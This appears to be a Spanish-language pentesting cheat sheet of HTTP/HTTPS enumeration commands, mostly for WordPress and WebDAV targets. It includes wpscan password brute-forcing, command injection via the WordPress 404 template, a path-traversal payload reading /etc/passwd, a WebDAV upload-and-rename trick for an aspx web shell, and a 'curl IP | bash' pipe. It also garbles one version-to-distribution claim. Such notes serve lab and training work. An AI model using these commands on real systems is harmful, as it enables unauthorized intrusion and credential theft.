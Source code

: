 # HTTP ❮❯
## Codigos de estado 
200 -> OK
301 -> Moved Permanently (Follow Redirect)
401 -> Unauthorized
403 -> Forbidden
404 -> Not Found

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js
**/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
**/wp-login.php** Es la ruta del panel de autenticacion de WordPress


❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 

❯ **whatweb ❮http://IP❯**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Mirar la jQuery
- Servidor Web
❯ **whatweb ❮http://IP:PORT❯** -> Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
❯ **whatweb \http://❮IP❯ -v**  v=Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas

❯ **curl ❮IP❯ | bash** Lo que hace Curl es obtener un **index.html** del servidor y despues con el bash haremos que nos interprete la data en bash
❯ **wget \http://❮IP❯/❮File❯** Para poder cargar o descargar un archivo especifico desde una IP


# HTTPS ❮❯
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

❯ **openssl s_client -connect ❮IP❯:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443
❯ **sslscan ❮IP❯:8443** Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443













- **/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
- Comando -> **wpscan --url <http://URL/>** Detecta vulnerabilidades, pluggins en un wordPress
- Comando -> **wpscan --url <http://URL/> --enumerate u** Enumeras usuarios que puedan existir en un WordPress
- Comando -> **wpscan --url <http://URL/> -U < USER> -P <Dicc.txt>** Aplicas fuerza bruta, en donde colocas el usuario y en este caso el diccionario de las passwd 
	Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)
- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)

